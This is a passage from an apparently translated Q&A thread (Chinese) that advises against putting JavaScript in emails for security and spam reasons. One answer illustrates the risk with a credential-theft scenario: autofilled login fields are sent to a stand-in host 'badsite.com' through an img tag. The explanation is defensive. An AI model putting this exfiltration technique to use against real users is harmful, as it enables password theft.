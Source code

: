 您已经列出了反对在电子邮件中使用 javascript 的正确论点。这些向您表明这是一个坏主意。链接到可以自由使用 javascript 的页面是一个不错的选择，它可以让用户决定是否以及何时想要访问此“增强”内容。

* * *

## 回答 #2

> 赞同：1
> 
> 时间：2009-02-18T13:35:24.557

JavaScript 的问题在于它构成了安全威胁。如果有任何电子邮件客户端接受它，那么它很可能是一个安全漏洞，应该修复。

所以，真的，“不要打扰”，因为即使它有效，它很快就会停止工作。

编辑：有些人似乎不明白*为什么*这是一个安全风险，所以我会解释一下。

考虑以下代码（使用 Javascript 和不安全的电子邮件客户端窃取密码的多种方法之一）。

使用 JavaScript：

1.  创建一个带有“用户名”和“密码”输入字段的表单。
2.  让浏览器自动记住这些字段的内容（有几个用户将用户名和密码存储在浏览器的内存中，避免每次都要输入和记住。
3.  （自动）填写两个字段后，使用类似`<img src="badsite.com/senddata?username=user&password=pass">`.
4.  恭喜！你偷了密码！

通常，仅在您自己的不安全网站中使用 JavaScript 创建表单本身并无害，因为浏览器足够智能，可以仅将 gmail 数据告诉 gmail（而且您通常不会尝试从自己的网站窃取密码，并且在在那种情况下，无论如何都会有更简单的方法来窃取它们）。

但是，如果您在电子邮件中允许使用 JavaScript，那么浏览器将无法将合法的 JavaScript 与不安全的代码区分开来。

如果电子邮件客户端无法过滤 JavaScript，Cookie 盗窃也是可能的。

* * *

## 回答 #3

> 赞同：0
> 
> 时间：2009-02-18T13:47:45.697

由于垃圾邮件如此重要，我会坚持发送易于使用的基本电子邮件。您始终可以链接到其中包含您的 javascript 的网页。您还可以在 URL 中发送一个查询字符串参数来跟踪对您的电子邮件最感兴趣的用户，因为这会告诉您他们正在点击它们。因此，尽管有可能，但最好避免它。

* * *

## 回答 #4

> 赞同：0
> 
> 时间：2010-05-20T16:53:26.397

是的，这是可能的，但不推荐。出于安全目的，大多数邮件管理软件都阻止了 js，如果他包含 js，则会发出警报。如果用户对垃圾邮件严格，那么这些邮件也会进入垃圾邮件。

* * *

## 回答 #5
